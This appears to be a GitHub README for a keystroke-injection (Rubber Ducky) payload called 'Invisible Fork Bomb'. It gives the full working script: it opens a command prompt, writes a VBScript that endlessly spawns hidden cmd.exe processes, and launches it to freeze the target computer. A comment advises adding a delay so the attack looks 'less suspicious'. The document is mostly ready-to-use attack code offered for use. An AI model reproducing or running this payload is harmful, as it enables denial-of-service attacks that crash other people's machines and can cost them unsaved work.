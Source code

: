 # Invisible Fork Bomb
The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

# About...
Author: [BlueArduino20](https://github.com/BlueArduino20/)

Version 2.0

Repository: [https://github.com/BlueArduino20/Invisible_fork_bomb](https://github.com/BlueArduino20/Invisible_fork_bomb)

# Code
<pre><code>
DELAY 1000
REM ^ You should set more delay time if your computer is slow or if the script doesn't work correctly.
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
REM You can add this: ">null ping localhost -n 5 && " before "start" to make a (5 sec) delay before the vbs execution. (By this way it's less suspicious)
ENTER
</pre></code>
